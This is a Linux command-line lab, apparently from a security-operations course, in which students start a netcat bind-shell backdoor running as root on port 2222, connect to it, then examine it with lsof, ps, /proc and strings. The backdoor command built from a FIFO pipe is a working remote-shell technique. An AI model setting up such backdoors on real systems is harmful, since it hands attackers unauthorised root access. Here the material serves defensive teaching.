







# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.

This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

Now, let's connect:

<pre> nc 172.30.249.49 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

We can see a number of interesting directories here:

<pre>ls</pre>

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

